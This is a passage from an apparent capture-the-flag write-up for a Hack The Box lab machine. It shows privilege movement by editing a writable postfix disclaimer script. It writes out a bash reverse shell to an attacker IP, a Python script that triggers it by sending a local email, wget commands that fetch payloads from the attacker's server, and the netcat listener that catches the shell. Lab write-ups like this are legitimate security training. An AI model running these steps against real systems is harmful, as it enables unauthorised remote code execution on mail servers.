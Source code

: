 Running `id`, we can see that kyle is in the group `filter`. Using `find`, we find out that we can edit the file `/etc/postfix/disclaimer`. Since postfix is on this machine, we can assume that an SMTP service is avaible locally, which gets confirmed from scanning local ports (port 25).

Every time an email is sent to this SMTP service, it will run the `disclaimer` file, checking if the sender email address is in the disclaimer_addresses file. Since we can edit the disclaimer file, we can add a reverse shell in the file, then send an email using a simple python script, triggering the revshell from postfix and giving us access as `john`.

Since the files get reverted after a very short amount of time, we must create the edited versions locally, then donwload then from a python HTTP server hosted on our machine and run them right after that. 

Edited disclaimer file:

```bash
#!/bin/bash
# Localize these.
bash -i >& /dev/tcp/10.10.14.226/4444 0>&1
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail
...
```

Python script to send the email:

```py
import smtplib

email = "kyle@writer.htb"

message = "Subject: Hello john, gimme access"

try:
    smtp = smtplib.SMTP("127.0.0.1", 25)
    smtp.ehlo()
    smtp.sendmail(email, email, message)
    smtp.quit()
except Exception as e:
    smtp.quit()
```

Commands to trigger the revshell:

```bash

# ON THE TARGET MACHINE
kyle@writer:~$ cd /tmp

kyle@writer:/tmp$ wget http://10.10.14.226:8000/disclaimer && wget http://10.10.14.226:8000/sendmail.py && cp disclaimer /etc/postfix/disclaimer && python3 sendmail.py

# ON OUR MACHINE
[exyss@exyss scripts]$ nc -lnvp 4444
Connection from 10.10.11.101:44212
bash: cannot set terminal process group (4558): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$
```
